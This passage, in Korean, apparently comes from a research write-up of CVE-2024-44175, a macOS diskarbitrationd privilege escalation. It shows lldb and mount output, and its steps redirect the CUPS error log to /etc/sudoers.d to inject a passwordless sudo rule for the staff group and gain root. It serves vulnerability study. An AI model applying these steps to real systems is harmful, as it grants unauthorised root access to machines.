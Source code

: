 이전에 생성했던 **mnt** 디렉토리를 제거하고, **`/etc/cups`**를 가리키는 `mnt`라는 이름의 **symbolic link**를 만듭니다.

```bash
(lldb) breakpoint disable
All breakpoints disabled. (2 breakpoints)
(lldb) c
Process 113 resuming
```

**lldb 디버거**에서 설정했던 **breakpoint**를 비활성화하여 **diskarbitrationd**가 계속 실행되도록 만듭니다.

```bash
tree@forest ~ % mount
/dev/disk4s1s1 on / (apfs, sealed, local, read-only, journaled)
devfs on /dev (devfs, local, nobrowse)
...
/dev/disk5s1 on /private/etc/cups (msdos, local, nodev, nosuid, noowners, noatime, fskit)
```

결과적으로 `/etc/cups` 디렉토리에 디스크 이미지가 마운트된 것을 확인할 수 있습니다.

이제 LPE를 수행할 수 있는 환경을 모두 구축했습니다!

**A. LPE**

![image.png](CVE-2024-44175/image1.png)

이와 같은 흐름으로 LPE가 진행되며, 각 과정은 아래와 같습니다.

1. `/etc/cups` 디렉토리에 마운트한 후, **커스텀 cups-files.conf** 파일 생성
    - **ErrorLog**: 로그 파일 위치를 `/etc/sudoers.d/lpe`로 설정합니다.
    - **LogFilePerm**: 로그 파일의 권한을 `777`로 설정합니다.
2. `cupsctl` 명령으로 에러 로그 파일 생성 
    - 생성된 로그 파일에 아래 내용을 추가
    
    ```
    %staff ALL=(ALL) NOPASSWD:ALL
    ```
    
3. `LogFilePerm`을 `700`으로 변경한 후 `cupsctl` 명령 재실행
4. `sudo` 명령으로 root 권한 획득

**B. sandbox escape** 
